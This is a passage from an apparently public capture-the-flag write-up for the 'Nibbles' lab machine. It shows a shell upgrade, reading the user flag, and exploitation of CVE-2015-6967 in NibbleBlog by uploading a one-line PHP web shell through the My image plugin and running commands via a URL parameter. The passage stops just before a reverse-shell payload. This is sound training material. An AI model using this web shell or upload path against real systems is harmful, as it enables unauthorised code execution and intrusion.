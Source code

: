 ### user.txt

From there, we’ll upgrade our shell, and then get user.txt:

```

python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
nibbler@Nibbles:/home$ ls
nibbler

nibbler@Nibbles:/home$ cd nibbler

nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip  user.txt

nibbler@Nibbles:/home/nibbler$ wc -c user.txt
33 user.txt

nibbler@Nibbles:/home/nibbler$ cat user.txt
b02ff32b...

```

### Without Metasploit

[This blog](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) provides a good write up of CVE-2015-6967, and how to exploit it.
1. Obtain admin credentials - we already have this.
2. Activate the “My image” plugin.
   If we click on “Plugings” on the menu on the left side of the admin page, it takes us to a list of installed plugins:
   ![1529838022141](https://0xdfimages.gitlab.io/img/1529838022141.png)
   So we can click “configure” under the vulnerable plugin, “My image”. We’re given an upload form:
   ![1529838333058](https://0xdfimages.gitlab.io/img/1529838333058.png)
3. Use the form to upload cmd.php.

   ```

   root@kali# cat cmd.php
   <?php system($_REQUEST['cmd']); ?>

   ```
4. Visit `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=[command]`
   ![1529838501643](https://0xdfimages.gitlab.io/img/1529838501643.png)

For whatever reason, I’m finding that my session with this site isn’t lasting long (probably other users logging in and stepping on my shell, since they are all named image.php). So let’s get a real shell. We’ll change out php to this:
